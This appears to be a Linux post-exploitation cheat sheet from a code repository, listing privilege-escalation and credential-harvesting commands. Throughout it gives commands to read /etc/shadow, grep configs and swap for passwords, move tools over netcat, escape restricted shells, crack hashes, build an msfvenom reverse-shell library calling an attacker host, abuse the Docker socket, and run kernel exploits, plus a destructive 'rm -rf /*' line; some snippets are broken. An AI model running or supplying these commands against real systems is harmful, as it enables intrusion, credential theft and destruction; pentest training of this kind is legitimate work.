

# Linux Post Exploitation Part 1

[Post Exploitation CommandsCheatsheet.pdf](Pictures/doc.pdf)

## Privilege Escalation

#### Information gathering

- Hostname: `hostname`
- Kernel Version: `uname -a`
- Operating System: `cat /etc/issue`
- Ip address: `ifconfig`
- Running Process: `ps auxw`
- Network: `route -n`
- DNS Server: `cat /etc/resolv.conf`
- Arp Cache: `arp -a`
- Current Network connection: `netstat -auntp`
- Current User Permission: `find / -user username`
- UID and GID Information of all users: `for user in $(cat /etc/passwd | cut -f1 -d":"); do id $user;`
- Last logged on users: `last -a`
- Root accounts: `cat /etc/passwd | cut -f1,3,4 -d":" | grep "0:0" | cut -f1 -d":" | awk '{print $1}'`
- Service account: `cat /etc/passwd`
- Home Directories: `ls -als /home/*`

#### Privileged Access

- Can current user execute any elevated privileges?  
    `sudo -l`
- Are there any setuid (root) binaries which may be vulnerable for privilege escalation?  
    `find / -prem -4000 -type f 2>/dev/null`
- Can we read configuration files that might contain sensitive information, passwords etc?  
    `grep "password" /etc/*.conf 2>/dev/null`
- Can we read the shadow file?  
    `cat /etc/shadow`
- Can we list or read the contents of the /root directory?  
    `ls -als /root`
- Can we read other users' history files?  
    `find /* -name *.*history* -print 2>/dev/null`
- Can we write to directories that are configured for web pages?  
    `touch /var/www/file`

#### Services

- Services configured on the system ports are they opening: `netstat -auntp`
- Service configuration files readable or modifiable by our current user: `find /etc/init.d/ ! -uid 0 -type f 2>/dev/null | xargs ls -la`
- Information that we can use for our advantages in the configuration files: `cat /etc/mysql/my.cnf`
- Can we start or stop services: `service service_name start/stop`

#### Jobs/tasks

- Task or jobs that are system configured to run: `cat /etc/crontab` or `ls -als /etc/cron.*`
- Custom jobs configured as root and modifiable: `find /etc/cron* -type f -perm -o+w -exec ls -l {} \;`

#### Installed software Information

- `dpkg -l`
- Version vulnerable: `searchsploit "httpd 2.2"`

#### LinEnum

[LinEnum](https://github.com/rebootuser/LinEnum)

More info: [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), [https://github.com/rebootuser](https://github.com/rebootuser)

We can transfer LinEnum from attacker to victim:  
`nc -w 3 <target ip> 1234 < LinEnum.sh` on attacker machine.  
`nc -lp 1234 > LinEnum.sh` on victim machine.  
`chmod +x LinEnum.sh`

`LineEnum.sh -h`  
`LinEnum.sh -k`

#### Cleartext credentials in Configuration files

- Passwords: `grep -r password /etc/*.conf 2>/dev/null`
- dotfiles with history in there name: `find /* -name *.*history* -print 2>/dev/null`
- Apache access.log file for "user" and "pass" strings: `cat /var/log/apache/access.log | grep -E "^user|^pass"`
- Dump preshared wireless keys from NetworkManger: `cat /etc/NetworkManager/system-connections/* | grep -E "^id|^psk"`

[Command execution with a MySQL UDF](https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html)

We can use enum_configs in metasploit module to get common configuration of a session.  
Other important module is enum_system.

  

#### SUID Binaries

[SUID](https://en.wikipedia.org/wiki/Setuid)  
`'setuid' attribute set for root-owned binary`  
`ls -als /bin/ping` \- -rwsr-xr-x in this s denote suid is set.

- Well known SUID-root directories:  
`/bin/su`  
`/bin/mount`  
`/usr/bin/sudo`  
`/usr/bin/passwd`  
`/usr/bin/chsh`

to find SUID executables: `find / -perm -4000 -type f 2>/dev/null`

- Below program will modcat is wrap around cat and execute commands

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char ** argv) {
    if(argc<2) {
        print("Reads a file. No file name provided.\n");
    }else
        execv("/bin/cat",argv);
        perror("exec");
        }
}
```
`modcat /etc/passwd`

<br>

- `nmap --interactive` and running `!sh`

- glibc '$ORIGIN' expansion Privilege escalation
[ORIGIN library search path](https://enchildfone.wordpress.com/2010/03/23/a-description-of-rpath-origin-ld_library_path-and-portable-linux-binaries/)
`use exploit/linux/local/glibc_origin_expansion_priv_esc`

#### Sudo Privileged access
[SUDO](https://en.wikipedia.org/wiki/Sudo)
`sudo -l`
`/etc/sudoers`
`sudo less /var/log/Xorg.1.log`


`man -P "id" man`
`sudo man -P "cat /etc/shadow" man`

[Docker](https://en.wikipedia.org/wiki/Docker_(software))
[https://github.com/pyperanger/dockerevil](https://github.com/pyperanger/dockerevil)

#### Restricted shell

[Restricted Shell](https://en.wikipedia.org/wiki/Chroot)

Restricted shell are implemented using rbash.
We can say we are in restricted shell when trying to use `cd` or common commands like `id >id.txt`.

We can run `env` to confirm we are in restricted shell.
We can use previous methods to use break out of the shell.
- `vi /tmp/test` and enter `!sh`.
- `find /home/bob -name test -exec /bin/sh \;` This will execute whatever follows the exec command.
- Using python or perl:
`python -c 'import pty; pty.spawn("/bin/sh')`
`perl -e 'exec "/bin/sh";'`
- Restricted shell escape from another sustem with SSH:
`ssh restricted_user@targetserver -t "/bin/sh"`

[There various other ways to escape restricted shells](https://www.google.com/search?q=%22Restricted+shell%22+++%22pentesting%22&oq=%22Restricted+shell%22+++%22pentesting%22)

#### Cracking shadow
`unshadow passwd shadow > crack.john`
`john crack.john -wordlist=/usr/share/wordlists/custom_words.txt`

#### MimiPenguin
[mimipenguin](https://github.com/huntergregal/mimipenguin)
There are two different scripts and both have different pros and cons.


#### Pilfering Credentials from Swap Memory
`swapon -s` or `cat /proc/swaps` to find swap file.
`strings /dev/sda5 | grep "password="`
`strings /dev/sda5 | grep "&password="`

[swap_digger](https://github.com/sevagas/swap_digger) can be used to automate search.

#### Code execution via shared object Library
[Shared object Library](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html)

[https://www.mozilla.org/en-US/security/advisories/mfsa2013-87/](https://www.mozilla.org/en-US/security/advisories/mfsa2013-87/)
[https://bugzilla.mozilla.org/show_bug.cgi?id=1184466](https://bugzilla.mozilla.org/show_bug.cgi?id=1184466)

Its just like DLL injection in windows.

When linux appication executed the following things will happen:
1. Any directories specified by -rpath-link options. (RPATH)
2. Any directories specified by -rpath options. (RPATH)
3. If the -rpath and -rpath-link options are not used, it will then search the contents of the environment variables LD_RUN_PATH and LD_LIBRARY_PATH.
4. Directories defined the DT_RUNPATH environment variables first, if that doesn't exist then the DT_RPATH.
5. Then the default lib directories, normally /lib and /usr/lib.
6. Finally, any directories defined in the /etc/ld.so.conf file.

[Reference](https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_3.html)

- Determine the Shared Object Libraries being Loaded by an executable:
`ldd /usr/local/bin/program`
- Determine if the Executables was compiled with RPATH Options:
`objdump -x /usr/local.program | grep RPATH` and `objdump -x /usr/local.program | grep RUNPATH`
- We can try to place malicious file in rpath result which r=writable.
`msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker LPORT> -f elf-so -o program.so`
Then we can transfer payload to the RPATH directory and execute the program.

#### Kernel exploits

*Dirty Cow - Existed in Kernel versions since 2.6.22 (2007) and fixed in 2016*
[https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)
*Stack Clash (Multiple Distribution/Kernels)*
[https://blog.qualys.com/vulnerabilities-research/2017/06/19/the-stack-clash](https://blog.qualys.com/vulnerabilities-research/2017/06/19/the-stack-clash)
*DCCP DoubleFree Privilege Escalation (4.4.0 kernel/Ubuntu)*
[https://www.exploit-db.com/exploits/41458/](https://www.exploit-db.com/exploits/41458/)
*Race Condition Privilege Escalation (Linux kernel < 4.10.15)*
[https://www.exploit-db.com/exploits/43345](https://www.exploit-db.com/exploits/43345)

[Kernel](https://en.wikipedia.org/wiki/Linux_kernel), [FreeBSD](https://www.freebsd.org/)

Categories of kernel exploits:
- Buffer overflow: [https://en.wikipedia.org/wiki/Buffer_overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
- Memory Corruption: [https://en.wikipedia.org/wiki/Memory_corruption](https://en.wikipedia.org/wiki/Memory_corruption)
- Denial-Of-Service: [https://en.wikipedia.org/wiki/Denial-of-service_attack](https://en.wikipedia.org/wiki/Denial-of-service_attack)
- Race conditions: [https://en.wikipedia.org/wiki/Race_condition](https://en.wikipedia.org/wiki/Race_condition)

`rm -rf /*` can delete entire operating system.
`searchsploit "linux kernel debian"`
[Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

`perl Linux_Exploit_Suggester.pl -k <kernel version>`
`uname -a` to find kernel version.

- Find right exploit.
- Download the exploit code.
- Compile it. (`gcc -version`, `gcc -m32 exploit.c -o exploit`...)
- Read the code carefully for requirments for executiion.
- Execute the exploit.

- Metasploit kernel Exploit: `use exploit/linux/local/`
`udev_netlink`

In addition to metasploit other tool is [KernelPop](https://github.com/spencerdodd/kernelpop).

[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

#### Unix Socket Exploitation

Connecting to the docker socket (running as root) as user nonroot:
`docker run-v /etc/shadow:/docker/hashedpasswords -d postgres`
`docker -exec -ti {CONTAINER_ID} bash`
`cat /docker/hashedpasswords > /docker/test.txt`
`chmod 777 /docker/test.txt`
`cat /docker/test.txt`

[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)

[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List](https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List)

***
***